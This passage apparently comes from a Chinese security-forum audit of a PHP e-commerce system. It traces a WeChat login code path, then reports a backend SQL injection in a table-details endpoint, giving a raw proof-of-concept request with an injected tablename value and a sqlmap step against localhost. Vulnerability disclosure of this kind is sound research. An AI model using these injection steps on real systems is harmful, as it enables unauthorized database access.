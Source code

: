 ![document_image_rId80.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-60c5d61b57a610522defb317d06f5607b23701e1.png)

往下进入到`appAuth`函数，位于`services/wechat/WechatServices.php`第372行。这里补全了用户信息。

![document_image_rId81.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-24e1cb53d2c825f823d7887f68ce00e3dd1809f8.png)

其中存在一个手机绑定校验，前提是开启`store_user_mobile`。这里默认值为`0`，也就无需校验手机号和验证码了。

![document_image_rId82.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-e4b26d61fb01d72c16f726f77288c0465b8c98ce.png)

412行进入`wechatOauthAfter`函数，位于`services/wechat/WechatUserServices.php`第272行。

![document_image_rId83.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-7225086cdd74f6fa63fbd305b741a535ac016fea.png)

这里从数据库查询了`eb_wechat_user`和`eb_user`，确保两张表都没有记录就会创建新用户。

![document_image_rId84.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-d0b80054a01dcf915cd50445d80e0612857fd416.png)

357行进入`setUserInfo`函数，位于`services/user/UserServices.php`第122行。用于添加用户数据。

![document_image_rId85.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-b7214fcfe3b31ddeae1b64d3407bc72f52329207.png)

【中危】后台SQL注入（查看表接口详细功能）
----------------------

### 漏洞详情

在进行SQL查询时，没有使用预编译和过滤，而是使用字符串拼接的方式拼接SQL语句。在实现查看表接口详细功能时，拼接了未经校验的数据，导致SQL注入漏洞的产生。

### 漏洞复现

*注意服务名和端口，需要自行替换*。  
访问后台：`http://localhost:45600/admin`  
输入安装时设置好的账号密码登录后台，从左侧栏进入路径`维护->开发工具->数据库管理`  
`http://localhost:45600/admin/system/maintain/system_databackup/index`

![document_image_rId86.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-ebc2cf47af0732736cf125fe2852840aa1e78067.png)

在右边找到详细按钮，点击后并抓包，原始数据包：

![document_image_rId87.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-7e11bb5a7d324e9d8334a0f050455e073fe9e528.png)

修改`tablename`成`'`可以看到报错提示。

![document_image_rId88.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-e97f365f7af76033d80e63fd40da3672e3b111af.png)

保存文件后使用sqlmap进行攻击：

![document_image_rId89.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-b3e1762b26a62f94cce04b907861cfde197472aa.png)

```php
GET /adminapi/system/backup/read?tablename=' HTTP/1.1
Host: localhost:45600
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
```